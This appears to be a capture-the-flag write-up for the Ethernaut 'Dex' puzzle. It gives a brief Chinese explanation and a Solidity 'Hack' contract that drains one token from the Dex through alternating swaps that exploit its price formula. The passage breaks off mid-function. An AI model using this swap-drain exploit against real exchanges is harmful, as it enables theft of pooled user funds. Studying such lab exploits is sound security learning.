 ## 21-Dex

根据交换的数量算法，推算不停交换代币，经过几轮可以将 Dex 中的一种代币全部转出

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IDex{
    function token1() external view returns(address);
    function token2() external view returns(address);
    function swap(address from, address to, uint amount) external;
    function getSwapPrice(address from, address to, uint amount) external view returns(uint);
    function approve(address spender, uint amount) external;

}

interface IERC20{
    function balanceOf(address account) external view returns (uint256);
    function transferFrom(address from, address to, uint256 value) external returns (bool);
    function approve(address spender, uint256 value) external returns (bool);
    function transfer(address to, uint256 value) external returns (bool);
}

contract Hack {

    IDex private dex;
    IERC20 private token1;
    IERC20 private token2;

    constructor(address target){
        dex = IDex(target);
        token1 = IERC20(dex.token1());
        token2 = IERC20(dex.token2());
    }

    function hack() external {

        token1.transferFrom(msg.sender, address(this), 10);

        token2.transferFrom(msg.sender, address(this), 10);

        token1.approve(address(dex), type(uint256).max);
        token2.approve(address(dex), type(uint256).max);

//    10 10 100 100
        dex.swap(address(token1), address(token2), token1.balanceOf(address(this)));
// //    0. 20 110 90
        dex.swap(address(token2), address(token1), token2.balanceOf(address(this)));
// //    24  0 86  110
        dex.swap(address(token1), address(token2), token1.balanceOf(address(this)));
// //    0  30 110 80
        dex.swap(address(token2), address(token1), token2.balanceOf(address(this)));
// //    41 0   69  110
        dex.swap(address(token1), address(token2), token1.balanceOf(address(this)));
// //    0。 65 110  45
        dex.swap(address(token2), address(token1), token2.balanceOf(address(this)));
// //    110 25 0   110
        dex.swap(address(token1), address(token2), token1.balanceOf(address(this)));
// //   110 = x*110/45. x=45
        dex.swap(address(token2), address(token1), 45);

        require(token1.balanceOf(address(dex)) == 0, "dex fail");
```